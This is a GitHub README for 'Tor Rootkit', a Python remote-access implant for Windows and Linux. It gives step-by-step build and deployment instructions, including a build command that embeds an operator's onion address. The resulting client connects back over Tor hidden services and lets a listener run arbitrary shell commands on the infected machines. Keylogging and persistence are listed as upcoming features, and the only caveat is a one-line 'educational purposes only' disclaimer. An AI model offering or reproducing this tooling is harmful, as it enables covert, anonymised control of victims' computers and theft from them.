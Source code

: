 # Tor Rootkit
[![Docker Image CI](https://github.com/emcruise/TorRootkit/actions/workflows/docker-image.yml/badge.svg)](https://github.com/emcruise/TorRootkit/actions/workflows/docker-image.yml)
[![Pyinstaller Build (Win)](https://github.com/emcruise/TorRootkit/actions/workflows/python-app.yml/badge.svg)](https://github.com/emcruise/TorRootkit/actions/workflows/python-app.yml)
[![Pyinstaller Build (Linux)](https://github.com/emcruise/TorRootkit/actions/workflows/main.yml/badge.svg)](https://github.com/emcruise/TorRootkit/actions/workflows/main.yml)

A Python 3 standalone Windows 10 / Linux Rootkit. The networking communications are established over the tor network.

## Disclaimer
Use for educational purposes only.

## Installation
- Clone with git:
```bash
git clone https://github.com/emcruise/TorRootkit.git
```

- Change directory to the repository:
```bash
cd ./TorRootkit
```

### Listener
The listener is designed to run on linux.

1. Build docker container:
```bash
sudo docker build -t listener .
```

2. Run docker container:
```bash
sudo docker run -it listener
```

### Client
The client runs on Windows and Linux.

**Note:** 
- On Windows the build file bundles tor into a executable.
- On Linux the build file expects that tor is installed globally in order for the client to work.

#### Prerequisites
- [Python3](https://www.python.org/)
- [Pip3](https://pypi.org/project/pip/)
- Add Python3 and Pip3 to PATH
- [Tor](https://www.torproject.org/) (on Linux)

1. Change directory to client:
```bash
cd .\client
```

2. Install all pip3 dependencies:
```bash
pip3 install -r requirements.txt
```
3. Build executable from build.py:
- downloads [Tor Expert Bundle](https://www.torproject.org/download/tor/) (Windows)
- bundles python3 interpreter and tor expert bundle into 1 standalone .exe file
```bash
python build.py <listener-onion-address> <listener-onion-port>
```

4. Execute the bundled client (Windows):
```bash
.\dist\client.exe
```

4. Execute the bundled client (Linux):
```bash
./dist/client
```

## Features
- Standalone executable, including python interpreter and tor
- The executable has a size of ~13MB on Windows and ~7MB on Linux
- the whole communication works over tor hidden services which guarantees some degree of anonymity
- The Listener can handle multiple clients
- The Client auto reconnects when a unexpected closed connection occurs

## Upcoming Features
- [x] cross-plattform compatibility
- [ ] Up- and Download functionality
- [ ] Screenshots
- [ ] Keylogging
- [ ] Persistence

## How to use
### Listener Shell Commands
| Command | Explanation |
| ------- | ----------- |
| `help`  | Shows the help menu |
| `^C` or `exit` | Exits the shell |
| `list` | lists all connected clients with their according index |
| `select <index>` | start shell with client |

### Client Shell Commands
| Command | Explanation |
| ------- | ----------- |
| `help`  | Shows the help menu |
| `^C` or `exit` | Exits the client shell and returns to listener shell |
| `os <command>` | Executes a command in the clients shell and returns the output |
| `background` | Keeps the connection to a client and returns to listener

## Contribution
All contributions are appreciated.

## Credits
- [Tor](https://www.torproject.org/)
- [PyInstaller](https://www.pyinstaller.org/)
- [Colorama Font](https://pypi.org/project/colorama/)
- [PySocks](https://pypi.org/project/PySocks/)
- [Stem](https://stem.torproject.org/)

